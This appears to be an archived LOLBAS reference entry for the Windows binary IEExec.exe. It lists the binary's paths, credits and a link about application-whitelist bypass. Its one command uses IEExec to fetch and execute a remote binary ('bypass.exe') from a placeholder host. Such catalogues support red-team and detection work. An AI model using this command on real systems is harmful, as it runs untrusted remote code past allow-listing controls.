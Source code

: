 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## IEExec.exe

* Functions: Execute

```
ieexec.exe http://x.x.x.x:8080/bypass.exe
```

Acknowledgements:
* Casey Smith - @subtee

Code sample:
* 

Resources:
* https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/

Full path:
```
c:\windows\system32\ieexec.exe
c:\windows\sysWOW64\ieexec.exe
```

Notes:



 